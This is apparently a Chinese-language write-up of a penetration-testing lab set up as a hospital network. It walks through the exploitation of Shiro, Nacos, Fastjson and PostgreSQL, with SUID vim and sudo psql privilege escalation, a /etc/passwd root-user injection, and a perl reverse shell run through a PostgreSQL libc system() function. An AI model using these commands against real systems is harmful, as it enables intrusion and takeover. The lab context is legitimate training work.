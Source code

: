 ![](attachments/Pasted%20image%2020240216130244.png)
#内网渗透 #Nacos #Shiro #Fastjson #Decrypt
在这个场景中，你将扮演一名渗透测试工程师，被派遣去测试某家医院的网络安全性。你的目标是成功获取所有服务器的权限，以评估公司的网络安全状况。该靶场共有 4 个flag，分布于不同的靶机。

nmap

![](attachments/Pasted%20image%2020240802145752.png)

访问8080端口服务

![](attachments/Pasted%20image%2020240802145947.png)

弱口令 admin:admin123

明显的shiro特征，但是爆破密钥无果

![](attachments/Pasted%20image%2020240802150516.png)

又用fscan扫了一遍

![](attachments/Pasted%20image%2020240802150757.png)

`actuator`泄露

拿下shirokey

![](attachments/Pasted%20image%2020240802151910.png)

```
algMode = CBC, key = GAYysgMQhG7/CzIJlVpR2g==, algName = AES
```

工具直接执行命令

![](attachments/Pasted%20image%2020240802152045.png)

直接弹shell

`find / -user root -perm -4000 -print 2>/dev/null`

![](attachments/Pasted%20image%2020240802154503.png)

vim.basic 提权

直接利用vim.basic 向root中写自己的公钥然后ssh登录，也可以改写passwd文件增加已知密码的用户

`vim.basic /root/.ssh/authorized_keys` 
或者写/etc/passwd

```
$1$asd$sTMDZlRI6L.jJEw2I.3x8.:0:0:root:/toor:/bin/bash
密码 123
用户 toor
```

![](attachments/Pasted%20image%2020240803130627.png)

利用proxychain扫描
proxychains4 -q nxc smb 172.30.12.5/24


`scp "D:\web\scan\fscan\fscan" root@39.98.125.109:/root`

```

上传venom，配置socks代理并通过proxyfilter代理到本地
```

访问http://172.30.12.6:8848/nacos ，尝试默认密码 nacos:nacos


fscan扫描内网

```SH
root@web01:~# chmod 777 fscan
root@web01:~# ./fscan -h 172.30.12.5/24 -hn 172.30.12.5

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.30.12.236   is alive
(icmp) Target 172.30.12.6     is alive
[*] Icmp alive hosts len is: 2
172.30.12.236:8009 open
172.30.12.6:8848 open
172.30.12.236:8080 open
172.30.12.6:139 open
172.30.12.6:135 open
172.30.12.6:445 open
172.30.12.236:22 open
[*] alive ports len is: 7
start vulscan
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02
[*] NetInfo
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass

```

venom + proxyfilter 做socks代理 默认密码nacos:nacos

![](attachments/Pasted%20image%2020240807170211.png)

![](attachments/Pasted%20image%2020240807170050.png)

http://172.30.12.236:8080 FASTJSON 一把梭

![](attachments/Pasted%20image%2020240807162626.png)

哥斯拉直接就是root

![](attachments/Pasted%20image%2020240807163424.png)


vemon 连接  fscan扫描

```SHELL
root@web03:~# ./fscan -h 172.30.54.179/24 -hn 172.30.54.179
./fscan -h 172.30.54.179/24 -hn 172.30.54.179

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.30.54.12    is alive
[*] Icmp alive hosts len is: 1
172.30.54.12:3000 open
172.30.54.12:5432 open
172.30.54.12:22 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://172.30.54.12:3000  code:302 len:29     title:None 跳转url: http://172.30.54.12:3000/login
[*] WebTitle http://172.30.54.12:3000/login code:200 len:27909  title:Grafana
```




PostgreSQL 8.1 及之前版本执行系统命令可以直接使用 Linux 中的 libc.so.6 文件

- `/lib/x86_64-linux-gnu/libc.so.6`
- `/lib/libc.so.6`
- `/lib64/libc.so.6`
- `/usr/lib/x86_64-linux-gnu/libc.so.6`
- `/usr/lib32/libc.so.6`

perl弹shell

```SQL
CREATE OR REPLACE FUNCTION system (cstring) RETURNS integer AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT; select system('curl 172.30.54.179');

select system('perl -e \'use Socket;$i="172.30.54.179";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'');

# 修改root用户密码
ALTER USER root WITH PASSWORD 'wuwumonster';
```

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


```SHELL
# 提权 在出现的信息下输入 !/bin/bash
sudo /usr/local/postgresql/bin/psql
root-# \?
General
  \c[onnect] [DBNAME|- [USER]]
                 connect to new database (currently "root")
  \cd [DIR]      change the current working directory
  \copyright     show PostgreSQL usage and distribution terms
  \encoding [ENCODING]
                 show or set client encoding
  \h [NAME]      help on syntax of SQL commands, * for all commands
  \q             quit psql
  \set [NAME [VALUE]]
                 set internal variable, or list all if no parameters
  \timing        toggle timing of commands (currently off)
  \unset NAME    unset (delete) internal variable
  \! [COMMAND]   execute command in shell or start interactive shell

Query Buffer
  \e [FILE]      edit the query buffer (or file) with external editor
  \g [FILE]      send query buffer to server (and results to file or |pipe)
  \p             show the contents of the query buffer
  \r             reset (clear) the query buffer
  \w FILE        write query buffer to file

Input/Output
!/bin/bash
```

```shell
root@web04:~/flag# cat flag04.txt
cat flag04.txt
                                           ,,                   ,,
`7MMF'  `7MMF'                             db   mm            `7MM
  MM      MM                                    MM              MM
  MM      MM  ,pW"Wq.  ,pP"Ybd `7MMpdMAo.`7MM mmMMmm  ,6"Yb.    MM
  MMmmmmmmMM 6W'   `Wb 8I   `"   MM   `Wb  MM   MM   8)   MM    MM
  MM      MM 8M     M8 `YMMMa.   MM    M8  MM   MM    ,pm9MM    MM
  MM      MM YA.   ,A9 L.   I8   MM   ,AP  MM   MM   8M   MM    MM
.JMML.  .JMML.`Ybmd9'  M9mmmP'   MMbmmd' .JMML. `Mbmo`Moo9^Yo..JMML.
                                 MM
                               .JMML.
flag04: flag{ea3f1322-93cf-43eb-a54b-e2ff6b8e396e}
```